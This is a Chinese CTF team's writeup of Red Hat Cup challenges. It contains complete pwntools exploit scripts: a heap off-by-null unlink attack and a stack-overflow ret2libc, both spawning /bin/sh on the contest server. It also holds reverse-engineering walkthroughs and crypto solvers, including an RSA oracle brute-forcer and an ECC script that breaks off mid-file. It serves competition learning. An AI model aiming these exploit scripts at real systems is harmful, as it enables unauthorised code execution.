刚结束不久的红帽杯，我们团队有幸获得了线上赛第四的成绩，对于我们来说，这成绩差强人意，其中密码学相关题目被我们全部拿下！以下是我们团队的部分writeup（pwn,re,Crypto),re的wp超级详细，感谢队里的re师傅orz.

# Pwn
## Shellcode Manager

绕过前面的一个验证才能进入程序功能，前面就是一个异或，可以通过他的输出得到异或参考串，就可以进入程序内部了；之后fill中存在off-by-null,先通过申请一个大的堆show将足够的异或串收集，之后利用unlink就可以对bss段进行写，再泄露libc,改写atoi就可以了

	# coding:utf-8
	from pwn import *
	debug = 0
	context.log_level='debug'
	elf = ELF('./pwn3')
	#libc = ELF('/home/moonagirl/moonagirl/libc/libc6_2.23-0ubuntu10_amd64.so')
	if debug:
	    p = process('./pwn3')#,env={'LD_PRELOAD':'/home/moonagirl/moonagirl/libc/libc6_2.23-0ubuntu10_amd64.so'})
	    libc=ELF('/home/moonagirl/moonagirl/libc/libc_local_x64')
	#    gdb.attach(p)
	else:
	    p = remote('123.59.138.180', 13579)#  123.59.138.180 13579123.59.138.180 13579
	    libc = ELF('./libc.so.6.64')
	
	def z(a=''):
	    gdb.attach(p,a)
	    if a == '':
	        raw_input()
	
	def add(size):
		sleep(0.2)
		p.sendline('1')
		sleep(0.2)
		p.sendline(str(size))
	
	def fill(index,len,data):
		sleep(0.2)
		p.sendline('3')
		sleep(0.2)
		p.sendline(str(index))
		sleep(0.2)
		p.sendline(str(len))
		sleep(0.2)
		p.send(data)
	
	def show(index):
		sleep(0.2)
		p.sendline('4')
		sleep(0.2)
		p.sendline(str(index))
	
	def delete(index):
		sleep(0.2)
		p.sendline('2')
		sleep(0.2)
		p.sendline(str(index))
	
	
	data1=p.recv(4)
	data2=p.recv()
	
	pad1="No passcode No fun\n"
	xor=[]
	for i in range(len(pad1)):
		xor.append(ord(pad1[i])^ord(data2[i]))
	print xor
	
	sleep(0.5)
	p.sendline('8')
	sleep(0.5)
	
	passcode='1Chun0iu'
	enc=''
	for i in range(len(passcode)):
		enc+=chr(ord(passcode[i])^xor[i])
	
	p.send(enc)
	
	add(0x200)#0
	add(0x108)#1
	add(0x108)#2
	add(0x108)#3
	
	data = '\x00'*(0x200 - 1)
	fill(0,0x200 - 1,data)
	
	show(0)
	p.recvuntil('Note 0\n')
	
	key = p.recv(0x180)
	print 'key:'+key
	
	
	payload = ''
	payload += '\x00'*(0x100 - 0x10)
	payload += p64(0x100) + p64(0x111)
	
	pay = ''
	for i in range(0,14*8):
		pay+=chr(ord(payload[i])^ord(key[i]))
	for i in range(14*8,2*14*8):
		pay+=chr(ord(payload[i])^ord(key[i]))
	for i in range(2*14*8,len(payload)):
		pay+=chr(ord(payload[i])^ord(key[i]))
	
	fill(2,0x100,pay)
	
	payload = ''
	payload += p64(0) + p64(0x101)
	payload += p64(0x602120 + 0x10 - 0x18) + p64(0x602120 + 0x10 - 0x10)
	payload += '\x00'*(0x100 - 32)
	payload += p64(0x100)
	
	pay = ''
	for i in range(0,14*8):
		pay+=chr(ord(payload[i])^ord(key[i]))
	for i in range(14*8,2*14*8):
		pay+=chr(ord(payload[i])^ord(key[i]))
	for i in range(2*14*8,len(payload)):
		pay+=chr(ord(payload[i])^ord(key[i]))
	
	fill(1,0x108,pay)
	
	#z()
	delete(2)
	
	payload = ''
	payload += p64(0) + p64(elf.got['puts'])
	
	pay = ''
	for i in range(0,len(payload)):
		pay+=chr(ord(payload[i])^ord(key[i]))
	#p.interactive()
	#fill(1,0x10,pay)
	#z()
	sleep(0.2)
	p.sendline('3')
	sleep(0.2)
	p.sendline(str(1))
	sleep(0.2)
	p.sendline(str(0x10+1))
	sleep(0.2)
	p.send(pay)
	
	#z()
	#show(0)
	#p.interactive()
	sleep(0.2)
	p.sendline('4')
	sleep(0.2)
	p.sendline(str(0))
	sleep(0.2)
	p.recvuntil('Note 0\n')
	
	puts_addr = u64(p.recv(6).ljust(8,'\x00'))
	print 'puts_addr:'+hex(puts_addr)
	libc_base = puts_addr - libc.symbols['puts']
	system_addr = libc_base + libc.symbols['system']
	print 'system_addr:'+hex(system_addr)
	
	payload = ''
	payload += p64(0) + p64(elf.got['atoi']) + p64(0x10)
	
	pay = ''
	for i in range(0,len(payload)):
		pay+=chr(ord(payload[i])^ord(key[i]))
	#p.interactive()
	#fill(1,0x10,pay)
	
	sleep(0.2)
	p.sendline('3')
	sleep(0.2)
	p.sendline(str(1))
	sleep(0.2)
	p.sendline(str(0x18+1))
	sleep(0.2)
	p.send(pay)
	
	
	#z()
	payload = ''
	payload += p64(system_addr)
	
	pay = ''
	for i in range(0,len(payload)):
		pay+=chr(ord(payload[i])^ord(key[i]))
	#p.interactive()
	#fill(1,0x10,pay)
	
	sleep(0.2)
	p.sendline('3')
	sleep(0.2)
	p.sendline(str(0))
	sleep(0.2)
	p.sendline(str(8+1))
	sleep(0.2)
	p.send(pay)
	#z()
	sleep(0.2)
	
	p.sendline('/bin/sh\x00')
	
	p.interactive()

## game server

这个就是一个简单的栈溢出，先输入两个250*‘a’’,之后就可以输入250+ 250 + 70个字符，造成栈溢出，先泄露libc,再直接返回到system即可

	# coding:utf-8
	#flag{f3b92d795c9ee0725c160680acd084d9}
	from pwn import *
	debug = 0
	#context.log_level='debug'
	elf = ELF('./pwn2')
	#libc = ELF('/home/moonagirl/moonagirl/libc/libc6_2.23-0ubuntu10_amd64.so')
	if debug:
	    p = process('./pwn2',env={'LD_PRELOAD':'./libc6-i386_2.23-0ubuntu7_amd64.so'})
	    libc=ELF('./libc6-i386_2.23-0ubuntu7_amd64.so')
	#    gdb.attach(p)
	else:
	    p = remote('123.59.138.180', 20000)#   
	    #libc = ELF('./libc6-i386_2.23-0ubuntu7_amd64.so')
	    #libc = ELF('./libc6-i386_2.23-0ubuntu9_amd64.so')
	    libc = ELF('./libc6-i386_2.23-0ubuntu10_amd64.so')
	#    one_gadgets = [0x3a80c,0x3a80e,0x3a812,0x3a819,0x5f065,0x5f066]
	
	def z(a=''):
	    gdb.attach(p,a)
	    if a == '':
	        raw_input()
	
	init_0 = len('Our %s is a noble %s. He is come from north and well change out would.')
	length = init_0 + 256*2
	success('len:'+hex(length))
	
	p.recvuntil('First, you need to tell me you name?\n')
	p.sendline('a'*250)
	
	p.recvuntil('What\'s you occupation?\n')
	p.sendline('a'*250)
	
	p.recvuntil('Do you want to edit you introduce by yourself?[Y/N]\n')
	p.sendline('Y')
	
	puts_got = elf.got['puts']
	puts_plt = elf.plt['puts']
	
	payload = ''
	payload += 'a'*0x111
	payload += 'b'*4
	payload += p32(puts_plt)
	payload += p32(0x08048637)
	payload += p32(puts_got)
	p.sendline(payload)
	
	payload1 = ''
	payload1 += p32(puts_plt)
	payload1 += p32(0x08048637)
	payload1 += p32(puts_got)
	p.recvuntil(payload1+'\n\n')
	data = u32(p.recv(4))
	success('puts_addr:'+hex(data))
	
	libc_base = data - libc.symbols['puts']
	system_addr = libc_base + libc.symbols['system']
	binsh_addr = libc_base + next(libc.search('/bin/sh'))
	one_gadgets = [0x45216,0x4526a,0xf0274,0xf1117]
	success('system_addr:'+hex(system_addr))
	success('binsh_addr:'+hex(binsh_addr))
	gadget = libc_base + one_gadgets[3]
	
	p.recvuntil('First, you need to tell me you name?\n')
	p.sendline('a'*250)
	
	p.recvuntil('What\'s you occupation?\n')
	p.sendline('a'*250)
	
	p.recvuntil('Do you want to edit you introduce by yourself?[Y/N]\n')
	p.sendline('Y')
	
	payload = ''
	payload += 'a'*0x111
	payload += 'b'*4
	
	payload += p32(system_addr)
	payload += p32(system_addr)
	payload += p32(binsh_addr)
	p.sendline(payload)
	
	p.sendline('ls\n')
	
	p.interactive()

# RE
## Wcm

和第一题考的内容一样，都是对称密码，但是第一题没做出来。。心塞。
Ida载入之后，首先判断长度是不是42，是的话继续。



然后进行填充，即填0XFF，直到长度是16的倍数停止。然后调用2个函数。



第一个函数，主要功能是初始化一个table，这个table由伪随机数生成，所以每次都是一样的，没必要关注实现的细节，得到那个表就可以了。



下面进入第二个函数，很明显的对称加密算法，首先byte2dword，然后轮密钥加，然后进入sbox，最后再异或，32轮之后再dword2byte，产生最后的16bit密文。



最后将得到的密文和给定的cipher比较，方式是异或。

那么接下来开始逆向，首先获取最后一轮输出的iv。直接和cipher异或就行了。

然后分析整个加密过程，实现机制和CBC模式很像，下一个DWORD的输出和前三个DWORD有关，这样不需要求sbox_inv，而异或表正好是32dword大小，倒过来的话每次异或的就是32-i，其他部分，包括最开始的byte2dword和最后的dword2byte不影响decode的实现，ROL和ROR函数也只是对输入进行移位，同样不影响。下面给出脚本。

首先是sbox的值。直接就能拿到，不需要求逆。



然后是分组亦或表，直接跟踪第一个函数实现然后dump下来就行了。

Decode函数实现：



最后将48位的cipher分段，16个一组，3次解密，得到flag。

运行结果：

我这里直接输出的是hex值，然后转成ascii就是flag了。



得到flag。

## CCM

这题也不算太难吧，上来有个壳，nsp壳的话，直接根据esp定理脱了，然后根据push大小和CRT的规则，定位到main函数。

首先输入，然后判断长度是不是42（不得不说3个题长度都一样），然后进入sub_401380函数。进来之后，首先有个判断。

即前面5个值是和给出的值进行异或得到的，也要求了中间4个值是-，以及最后一位是}。
直接对那5个值进行异或就能得到前五位的flag{。

接下来根据伪随机数产生一张表，具体的值就直接dump了。



然后进行ascii2hex操作，长度扩大一倍。

还需要注意，main中有3处反调试，直接patch掉就行了。

再往下走，会根据hex的值进行查表替换。简单的说，如果原来是数字就进入if，查GHIJKLMNOPQRSTUV，如果不是则进入另一个大表查询。



具体的表值如下。

根据这个表值，进入sub_4010E0函数，再去查一个大表。

很像维吉尼亚密码表。不用管了，直接用就可以了，因为我也是dump的。
再往下走，会遇到一个很长的表达式。包含5个变量。就是对输入处理后的其中5位，然后进入方程，判断是否满足。

最后将处理的部分和cipher比较，方式也是异或。



然后开始逆向。首先根据cipher获取处理后的部分。



得到，很明显，有5位是假的，即出题人故意选择了这样的值，否则那5个变量的方程就没有意义了。

但其实可以发现，因为已经约束了前五位的值，所以第一个不可见字符是可以求出来的。但是这里要先分析前面两个转换的步骤。

第一个部分其实不难理解，就是查下标，因为输入的是数字，直接爆破也可以。
第二个部分是比较烦的。
sub_4010E0这个函数，首先对输入的参数进行比较，分大小写，应该是出题人用来混淆的，其实之前那个表里面得到的都是小写字母，不存在大写字母，所以这里分2类，每类里面2个while循环的算法等价于分一类，其中大写的那部分是不会进去的。



然后看下2个while循环的功能。实际上就是查表了，我也是调试的时候发现的，就是查那个27*27的表，首先是查输入的在第几个，然后对输入进行第二次查表，即对
Sxcunsbjptdunaaxklcvxsikxiewcmpwdngfqtfvomgkbwjrmccntqlratukzoafmngbyykjtabnhrnmweln表进行查找，查找的下标是总出现的次数。

关于次数这个是外面决定的。即出现了几次非数字的次数。



那么到这里的话，我们就可以分析出5个变量中的第一个是什么了，由于前五位flag{是确定的，你们第一个变量的位置就应该是g所对应的hex，而g的ascii是0x67，都是数字，我们只需要模拟第一个部分，即查GHIJKLMNOPQRSTUV，所以是MN。得到第一个变量是N的ascii码值。
然后就不多说了，直接爆破吧。
首先获取那个表，直接用idapython，手抠太烦了。

如下图。

然后爆破就好了。

爆破结果如下：

然后我们就得到了整个cipher。
MMMuMHMNNyJLJKMMJPJKJMMMJLIfMMJPJLMHIxJKMHJGMHIqMIMHJJJHIvJNMIJHJNJHMHJNMLMJMHJOJINe
最后就是逆那2个算法，或者直接爆破也行。我就直接爆破了。

得到flag

# Crypto

## 3dlight

这题自己也是莫名其妙做出来了，感觉方法可能不科学…
先把得到的密文转回三维列表lights，用ans暂存要还原的三维列表，初始值是2表示还没还原；
首先检查lights中的0，只要有0，自己和与它直接相连的都不会发光；
随后检查有没有8，有就代表它自己和它直接相连的都会发光；
再检查有没有在面上的7，有就代表它自己和它直接相连的都会发光；
最后检查有没有在棱上的6，有就代表它自己和它直接相连的都会发光；
然后就是无科学性地循环排除，简单来说检查已经找到（ans=0或1）并熄灭的灯的周围有没有大于2且没找到（ans = 2）的灯，如果正好等于中间的数值，就说明这些灯都是发光的；
在这些查找中，如果lights小于等于1且对应ans=2，那它肯定不发光并置ans=0；
最后脚本：

	# coding=utf-8
	
	c = "0303040201040402040202020102040204020002020504020503010406060400050403040607040104040203050604010501030002050502030303020102050404030302020505010502010201040502050302000306060105050102040705020306010105070602030404020508060303040303040606030304060403040504040202040506040006020305060605020504030305060301050302010404030203040302040603010205040608070201020304040607020001030302030403010403030202050502050605040405050307060604060603010604050405070502040303040507040104040404060703000504050406070301010404010306030103040202020504020403020205060301050603020606020105040203050704010203020405070501040202020407050203050503050705030303050305060301050503030202020305050303050502020305050506050103010303050706030203020306070806040303010202060602030205040303020203030404060501000303030301010203030504020206040302030502030503040102050405070302030305060607070405030301020606030304060302020303040505040405020100020101000101010304040101050402030504000105040302040502020504020203060402040502040405030204060201030605030405040102050404040402".decode('hex')
	
	def str2arr(str):
	    return [[[ord(str[i*8*8+j*8+k]) for k in xrange(8)] for j in xrange(8)] for i in xrange(8)]
	
	def arr2str(arr):
	    ret = ''
	    for i in xrange(8):
	        for j in xrange(8):
	            tmp = ''
	            for k in xrange(8):
	                tmp += str(arr[i][j][k])
	            ret += chr(int(tmp[::-1],2))
	    return ret
	
	lights = str2arr(c)
	ans = [[[2 for _ in xrange(8)] for _ in xrange(8)] for _ in xrange(8)]
	dir = [[0, 0, 1], [0, 0, -1], [0, 1, 0], [0, -1, 0], [1, 0, 0], [-1, 0, 0]]
	
	def check(x, y, z):
	    if x < 0 or x > 7 or y < 0 or y > 7 or z < 0 or z > 7:
	        return False
	    return True
	
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if lights[i][j][k] == 0:
	                ans[i][j][k] = 0
	                for (x, y, z) in dir:
	                    if check(i + x, j + y, k + z):
	                        ans[i + x][j + y][k + z] = 0
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if lights[i][j][k] == 8:
	                lights[i][j][k] = lights[i][j][k] - 2
	                ans[i][j][k] = 1
	                for (x, y, z) in dir:
	                    if check(i + x, j + y, k + z):
	                        lights[i + x][j + y][k + z] = lights[i + x][j + y][k + z] - 3
	                        ans[i + x][j + y][k + z] = 1
	                        for (x1, y1, z1) in dir:
	                            if check(i + x + x1, j + y + y1, k + z + z1):
	                                lights[i + x + x1][j + y + y1][k + z + z1] = lights[i + x + x1][j + y + y1][k + z + z1] - 1
	
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if lights[i][j][k] == 7 and ((i == 0 and j != 0 and k !=0) or (i != 0 and j == 0 and k !=0) or (i != 0 and j != 0 and k ==0)):
	                lights[i][j][k] = lights[i][j][k] - 2
	                ans[i][j][k] = 1
	                for (x, y, z) in dir:
	                    if check(i + x, j + y, k + z):
	                        lights[i + x][j + y][k + z] = lights[i + x][j + y][k + z] - 3
	                        ans[i + x][j + y][k + z] = 1
	                        for (x1, y1, z1) in dir:
	                            if check(i + x + x1, j + y + y1, k + z + z1):
	                                lights[i + x + x1][j + y + y1][k + z + z1] = lights[i + x + x1][j + y + y1][k + z + z1] - 1
	
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if lights[i][j][k] == 6 and ((i == 0 and j == 0 and k !=0) or (i != 0 and j == 0 and k ==0) or (i == 0 and j != 0 and k ==0)):
	                lights[i][j][k] = lights[i][j][k] - 2
	                ans[i][j][k] = 1
	                for (x, y, z) in dir:
	                    if check(i + x, j + y, k + z):
	                        lights[i + x][j + y][k + z] = lights[i + x][j + y][k + z] - 3
	                        ans[i + x][j + y][k + z] = 1
	                        for (x1, y1, z1) in dir:
	                            if check(i + x + x1, j + y + y1, k + z + z1):
	                                lights[i + x + x1][j + y + y1][k + z + z1] = lights[i + x + x1][j + y + y1][k + z + z1] - 1
	
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if lights[i][j][k] <= 1 and ans[i][j][k] == 2:
	                ans[i][j][k] = 0
	
	
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if ans[i][j][k] == 0 and lights[i][j][k] != 0:
	                num = 0
	                for (x, y, z) in dir:
	                    if check(i + x, j + y, k + z) and lights[i + x][j + y][k + z] >= 2 and ans[i + x][j + y][k + z] == 2:
	                        num = num + 1
	                if num == lights[i][j][k]:
	                    for (x, y, z) in dir:
	                        if check(i + x, j + y, k + z) and lights[i + x][j + y][k + z] >= 2 and ans[i + x][j + y][k + z] == 2:
	                            ans[i + x][j + y][k + z] = 1
	                            lights[i + x][j + y][k + z] = lights[i + x][j + y][k + z] - 2
	                            for (x1, y1, z1) in dir:
	                                if check(i + x + x1, j + y + y1, k + z + z1):
	                                    lights[i + x + x1][j + y + y1][k + z + z1] = lights[i + x + x1][j + y + y1][k + z + z1] - 1
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if lights[i][j][k] <= 1 and ans[i][j][k] == 2:
	                ans[i][j][k] = 0
	
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if ans[i][j][k] == 0 and lights[i][j][k] != 0:
	                num = 0
	                for (x, y, z) in dir:
	                    if check(i + x, j + y, k + z) and lights[i + x][j + y][k + z] >= 2 and ans[i + x][j + y][k + z] == 2:
	                        num = num + 1
	                if num == lights[i][j][k]:
	                    for (x, y, z) in dir:
	                        if check(i + x, j + y, k + z) and lights[i + x][j + y][k + z] >= 2 and ans[i + x][j + y][k + z] == 2:
	                            ans[i + x][j + y][k + z] = 1
	                            lights[i + x][j + y][k + z] = lights[i + x][j + y][k + z] - 2
	                            for (x1, y1, z1) in dir:
	                                if check(i + x + x1, j + y + y1, k + z + z1):
	                                    lights[i + x + x1][j + y + y1][k + z + z1] = lights[i + x + x1][j + y + y1][k + z + z1] - 1
	
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if lights[i][j][k] <= 1 and ans[i][j][k] == 2:
	                ans[i][j][k] = 0
	
	
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if ans[i][j][k] == 0 and lights[i][j][k] != 0:
	                num = 0
	                for (x, y, z) in dir:
	                    if check(i + x, j + y, k + z) and lights[i + x][j + y][k + z] >= 2 and ans[i + x][j + y][k + z] == 2:
	                        num = num + 1
	                if num == lights[i][j][k]:
	                    for (x, y, z) in dir:
	                        if check(i + x, j + y, k + z) and lights[i + x][j + y][k + z] >= 2 and ans[i + x][j + y][k + z] == 2:
	                            ans[i + x][j + y][k + z] = 1
	                            lights[i + x][j + y][k + z] = lights[i + x][j + y][k + z] - 2
	                            for (x1, y1, z1) in dir:
	                                if check(i + x + x1, j + y + y1, k + z + z1):
	                                    lights[i + x + x1][j + y + y1][k + z + z1] = lights[i + x + x1][j + y + y1][k + z + z1] - 1
	
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if lights[i][j][k] <= 1 and ans[i][j][k] == 2:
	                ans[i][j][k] = 0
	
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if ans[i][j][k] == 1 and  lights[i][j][k] != 0:
	                num = 0
	                for (x, y, z) in dir:
	                    if check(i + x, j + y, k + z) and lights[i + x][j + y][k + z] >= 2 and ans[i + x][j + y][k + z] == 2:
	                        num = num + 1
	                if num == lights[i][j][k]:
	                    for (x, y, z) in dir:
	                        if check(i + x, j + y, k + z) and lights[i + x][j + y][k + z] >= 2 and ans[i + x][j + y][k + z] == 2:
	                            ans[i + x][j + y][k + z] = 1
	                            lights[i + x][j + y][k + z] = lights[i + x][j + y][k + z] - 2
	                            for (x1, y1, z1) in dir:
	                                if check(i + x + x1, j + y + y1, k + z + z1):
	                                    lights[i + x + x1][j + y + y1][k + z + z1] = lights[i + x + x1][j + y + y1][k + z + z1] - 1
	
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if lights[i][j][k] <= 1 and ans[i][j][k] == 2:
	                ans[i][j][k] = 0
	
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if lights[i][j][k] != 0:
	                num = 0
	                for (x, y, z) in dir:
	                    if check(i + x, j + y, k + z) and lights[i + x][j + y][k + z] >= 2 and ans[i + x][j + y][k + z] == 2:
	                        num = num + 1
	                if num == lights[i][j][k]:
	                    for (x, y, z) in dir:
	                        if check(i + x, j + y, k + z) and lights[i + x][j + y][k + z] >= 2 and ans[i + x][j + y][k + z] == 2:
	                            ans[i + x][j + y][k + z] = 1
	                            lights[i + x][j + y][k + z] = lights[i + x][j + y][k + z] - 2
	                            for (x1, y1, z1) in dir:
	                                if check(i + x + x1, j + y + y1, k + z + z1):
	                                    lights[i + x + x1][j + y + y1][k + z + z1] = lights[i + x + x1][j + y + y1][k + z + z1] - 1
	
	for i in range(8):
	    for j in range(8):
	        for k in range(8):
	            if lights[i][j][k] <= 1 and ans[i][j][k] == 2:
	                ans[i][j][k] = 0
	
	
	flag = arr2str(ans)
	
	print ''.join(flag[0::2][i] + flag[-1::-2][i] for i in xrange(32))

得到flag：

## rsa system

这题相对比较简单，就是自己可以构造padding，如果padding正好256字节就不会再填充，这样就可以利用

构造我们想要unpad，从256字节高字节开始逐字节爆破出flag，脚本：

	# coding=utf-8
	
	from pwn import *
	
	n = 0xBACA954B2835186EEE1DAC2EF38D7E11582127FB9E6107CCAFE854AE311C07ACDE3AAC8F0226E1435D53F03DC9CE6701CF9407C77CA9EE8B5C0DEE300B11DD4D6DC33AC50CA9628A7FB3928943F90738BF6F5EC39F786D1E6AD565EB6E0F1F92ED3227658FDC7C3AE0D4017941E1D5B27DB0F12AE1B54664FD820736235DA626F0D6F97859E5969902088538CF70A0E8B833CE1896AE91FB62852422B8C29941903A6CF4A70DF2ACA1D5161E01CECFE3AD80041B2EE0ACEAA69C793D6DCCC408519A8C718148CF897ACB24FADD8485588B50F39BCC0BBF2BF7AD56A51CB3963F1EB83D2159E715C773A1CB5ACC05B95D2253EEFC3CCC1083A5EF279AF06BB92F
	e = 0x10001
	
	s_box = [
	    0x63, 0x7C, 0x77, 0x7B, 0xF2, 0x6B, 0x6F, 0xC5, 0x30, 0x01, 0x67, 0x2B, 0xFE, 0xD7, 0xAB, 0x76,
	    0xCA, 0x82, 0xC9, 0x7D, 0xFA, 0x59, 0x47, 0xF0, 0xAD, 0xD4, 0xA2, 0xAF, 0x9C, 0xA4, 0x72, 0xC0,
	    0xB7, 0xFD, 0x93, 0x26, 0x36, 0x3F, 0xF7, 0xCC, 0x34, 0xA5, 0xE5, 0xF1, 0x71, 0xD8, 0x31, 0x15,
	    0x04, 0xC7, 0x23, 0xC3, 0x18, 0x96, 0x05, 0x9A, 0x07, 0x12, 0x80, 0xE2, 0xEB, 0x27, 0xB2, 0x75,
	    0x09, 0x83, 0x2C, 0x1A, 0x1B, 0x6E, 0x5A, 0xA0, 0x52, 0x3B, 0xD6, 0xB3, 0x29, 0xE3, 0x2F, 0x84,
	    0x53, 0xD1, 0x00, 0xED, 0x20, 0xFC, 0xB1, 0x5B, 0x6A, 0xCB, 0xBE, 0x39, 0x4A, 0x4C, 0x58, 0xCF,
	    0xD0, 0xEF, 0xAA, 0xFB, 0x43, 0x4D, 0x33, 0x85, 0x45, 0xF9, 0x02, 0x7F, 0x50, 0x3C, 0x9F, 0xA8,
	    0x51, 0xA3, 0x40, 0x8F, 0x92, 0x9D, 0x38, 0xF5, 0xBC, 0xB6, 0xDA, 0x21, 0x10, 0xFF, 0xF3, 0xD2,
	    0xCD, 0x0C, 0x13, 0xEC, 0x5F, 0x97, 0x44, 0x17, 0xC4, 0xA7, 0x7E, 0x3D, 0x64, 0x5D, 0x19, 0x73,
	    0x60, 0x81, 0x4F, 0xDC, 0x22, 0x2A, 0x90, 0x88, 0x46, 0xEE, 0xB8, 0x14, 0xDE, 0x5E, 0x0B, 0xDB,
	    0xE0, 0x32, 0x3A, 0x0A, 0x49, 0x06, 0x24, 0x5C, 0xC2, 0xD3, 0xAC, 0x62, 0x91, 0x95, 0xE4, 0x79,
	    0xE7, 0xC8, 0x37, 0x6D, 0x8D, 0xD5, 0x4E, 0xA9, 0x6C, 0x56, 0xF4, 0xEA, 0x65, 0x7A, 0xAE, 0x08,
	    0xBA, 0x78, 0x25, 0x2E, 0x1C, 0xA6, 0xB4, 0xC6, 0xE8, 0xDD, 0x74, 0x1F, 0x4B, 0xBD, 0x8B, 0x8A,
	    0x70, 0x3E, 0xB5, 0x66, 0x48, 0x03, 0xF6, 0x0E, 0x61, 0x35, 0x57, 0xB9, 0x86, 0xC1, 0x1D, 0x9E,
	    0xE1, 0xF8, 0x98, 0x11, 0x69, 0xD9, 0x8E, 0x94, 0x9B, 0x1E, 0x87, 0xE9, 0xCE, 0x55, 0x28, 0xDF,
	    0x8C, 0xA1, 0x89, 0x0D, 0xBF, 0xE6, 0x42, 0x68, 0x41, 0x99, 0x2D, 0x0F, 0xB0, 0x54, 0xBB, 0x16
	]
	
	def pad(s):
	    ret = ['\x00' for _ in range(256)]
	    for index, pos in enumerate(s_box):
	        ret[pos] = s[index]
	    return ''.join(ret)
	
	def str2int(s):
	    return int(s.encode('hex'), 16)
	
	def mul(x, y, z):
	    ret = 1
	    while y != 0:
	        if y & 1 != 0:
	            ret = (ret * x) % z
	        x = (x * x) % z
	        y >>= 1
	    return ret
	
	flag = ""
	num = 255
	
	while len(flag) != 38:
	    p = remote("123.59.138.211", 23333)
	
	    p.recvuntil("choice :")
	
	    p.sendline("1")
	    p.recvuntil(": ")
	    p.sendline(chr(num) * 218)
	    p.recvuntil("Success")
	
	    p.sendline("1")
	    p.recvuntil(": ")
	    s = '\x02' * num
	    p.sendline(s)
	    p.recvuntil("Success")
	
	    p.sendline("2")
	    p.recvuntil("0x")
	    br = int(r.recvline().replace("\n",""),16)
	
	    for c in range(20,128):
	        if br == mul(str2int(pad(flag + chr(c) + s)), e, n):
	            flag += chr(c)
	            break
	    num = num - 1
	    p.close()
	
	print flag

## advanced ecc

这题主要漏洞点在

那么我们可以利用返回的level1的C2和level2的C2与G爆破出r[0]-r[1]；
再利用level1的C1和level2的C1与K求出M就可以解密了，详见脚本：

	# -*- coding: utf-8 -*-
	
	def extended_gcd(a, b):
	    x, y = 0, 1
	    lastx, lasty = 1, 0
	    while b:
	        a, (q, b) = b, divmod(a, b)
	        x, lastx = lastx - q * x, x
	        y, lasty = lasty - q * y, y
	    return (a, lastx, lasty)
	
	
	def modinv(a, m):
	    g, x, _ = extended_gcd(a, m)
	    if g != 1:
	        raise Exception('modular inverse does not exist')
	    else:
	        return x % m
	
	
	class Point:
	    def __init__(self, x, y):
	        self.x, self.y = x, y
	
	    def equals(self, p):
	        return (self.x == p.x and self.y == p.y)
	
	class ECurve:
	    # y^2 = x^3 + ax + b mod p
	    def __init__(self, a, b, p):
	        self.a, self.b, self.p = a, b, p
	
	    # The method checks if the point is a valid point
	    # and satisfies 4a^3 + 27b^2 != 0
	    def check(self, p):
	        l = (p.y * p.y) % self.p
	        r = (p.x * p.x * p.x + self.a * p.x + self.b) % self.p
	        c = 4 * self.a * self.a * self.a + 27 * self.b * self.b
	        return l == r and c != 0
	
	    # Implements point addition P + Q
	    def add(self, p, q):
	        r = Point(0, 0)
	        if p.equals(r): return q
	        if q.equals(r): return p
	        # if P = Q
	        if p.equals(q):
	            if p.y != 0:
	                l = ((3 * p.x * p.x + self.a) % self.p * modinv(2 * p.y, self.p)) % self.p
	                r.x = (l * l - 2 * p.x) % self.p
	                r.y = (l * (p.x - r.x) - p.y) % self.p
	        # if P != Q
	        else:
	            if q.x - p.x != 0:
	                l = ((q.y - p.y) % self.p * modinv(q.x - p.x, self.p)) % self.p
	                r.x = (l * l - p.x - q.x) % self.p
	                r.y = (l * (p.x - r.x) - p.y) % self.p
	        return r
	
	    # Implements modular multiplication nP
	    def multiply(self, p, n):
	        ret = Point(0, 0)
	        while n > 0:
	            if n & 1 == 1:
	                ret = self.add(ret, p)
	            p = self.add(p, p)
	            n >>= 1
	        return ret
	
	G = Point(0x79be667ef9dcbbac55a06295ce870b07029bfcdb2dce28d959f2815b16f81798, 0x483ada7726a3c4655da4fbfc0e1108a8fd17b448a68554199c47d08ffb10d4b8)
	K = Point(0xe05fc87bcf70996bedd04fefdf862c1a9d1be7c265aeaa01c064b26d885dbb48, 0xb2fc8bd045cc3927b9325dccdfdb0b31524e551bc41640a21578b72bd24d4f95)
	flag = 0x666c61677b378bcf71e09c2de9093708ca2ce1770c1e92a4d998ebb303f3fe4ba2b4cd153cfb
	
	C1 = Point(0xa4c7ad80c3786c06b864e227564eef0f62ac8846396bd60022d8f1361bfccd76, 0x4f1b975180cb7bc0d5f9727483a2c473f933db3996fd1b041fcb06885d40ebac)
	C2 = Point(0x5b9f0eec2da107db668b2bc448ba8a321355c1e91a1144761a75a9995d4e7c9a, 0x5c4adca18aa1c00eac68d9ea5ba7f859cc3fc838c2758806e4b0c981b0541a36)
	
	C3 = Point(0x91dfb73c4ebd8ec249fa933e4c6ccc6bcabb7c9b5bd3dae313deb7c77aa70820, 0xc5ed9e124105e5f2b6995300905482236074a89839a45c63e48b078de0a857ea)
	C4 = Point(0x5f16bb008b865364af1d885efb7d823db081419a4dba8c7437caa4bc794b9d33, 0x785cba0e0774d699f5ec0b316f5754ad08304102fd111f66db9236664de4256b)
	
	C5 = Point(0xa0f115089a833a6133a5512ca43b62e572ad3a7e410a6816fd0478bd4ac233f4, 0xb498d4d0015b76c953be21f5ec538f8f928ac2bdb7b0ab2fe40c671ced524216)
	C6 = Point(0x4d70eeb520d304c8f2a3217808af2c425fd4632fad084d81f486248ade59750e, 0x52cb471ca6c46c2b9da2842b1a928c21417587c52fa07213807b961259e0af5b)
	
	a = 0
	b = 7
	p = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEFFFFFC2F
	
	curve = ECurve(a, b, p)
	
	"""
	C2_ = curve.multiply(C2, 2)
	
